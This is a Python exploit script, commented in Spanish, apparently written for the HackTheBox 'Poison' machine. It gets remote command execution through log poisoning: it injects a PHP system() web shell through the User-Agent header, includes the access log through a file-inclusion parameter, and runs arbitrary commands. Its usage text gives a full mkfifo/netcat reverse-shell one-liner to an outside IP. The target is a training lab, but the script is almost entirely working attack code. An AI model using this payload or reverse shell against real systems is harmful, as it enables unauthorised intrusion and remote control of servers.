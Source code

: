 ```python
#!/usr/bin/python3
#Script en python para conseguir RCE en la maquina Poison de HTB a traves de la vulnerabilidad Log Poisoning
#Uso del script: python3 RCE_Poison.py <command>
#Creator: H4ckBl0g.github.io 
from pwn import *
 
if len(sys.argv) != 2:
    print("\nUso: python3 RCE_Poison.py <command>")
    print("""\nEjemplo: python3 RCE_poison.py "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f" """)
    sys.exit(1) 
#Variables
cmd = sys.argv[1]
URL = "http://10.10.10.84/browse.php?file=/var/log/httpd-access.log"
URL_command = "http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd="
def def_hundler(sig, frame):
    print("\n[!]Saliendo...\n")
    sys.exit(1) 
#CTRL+C
signal.signal(signal.SIGINT, def_hundler)
 
#Funciones
def makeRequest():
    t = requests.post(URL_command)
    if "Cannot execute a blank command" not in t.text:
        headers_data = {
            "User-Agent" : "<?php system($_GET['cmd']); ?>"
        }
        r = requests.post(URL, headers=headers_data)
    if "Cannot execute a blank command" in t.text:
        print("✅ Podemos ejecutar comandos en el sistema\n\nOutput:\n")
    else:
        print("No se puede ejecutar comandos")
        sys.exit(1)
    s = requests.get(URL_command + urlencode(cmd))
    output = re.findall(r'"POST \/browse.php\?file=\/var\/log\/httpd-access.log HTTP\/1.1" 200 \d+ "-" "([\s\S]*?)\n"', s.text)[0]
    print(output)
  
if __name__ == '__main__':
    print("""
                                                                                 
,------.  ,-----.,------.      ,------.  ,-----. ,--. ,---.   ,-----. ,--.  ,--. 
|  .--. ''  .--./|  .---'      |  .--. ''  .-.  '|  |'   .-' '  .-.  '|  ,'.|  | 
|  '--'.'|  |    |  `--,       |  '--' ||  | |  ||  |`.  `-. |  | |  ||  |' '  | 
|  |\  \ '  '--'\|  `---.,----.|  | --' '  '-'  '|  |.-'    |'  '-'  '|  | `   | 
`--' '--' `-----'`------''----'`--'      `-----' `--'`-----'  `-----' `--'  `--' by Tukutu                                                  
        """)
    makeRequest()
```
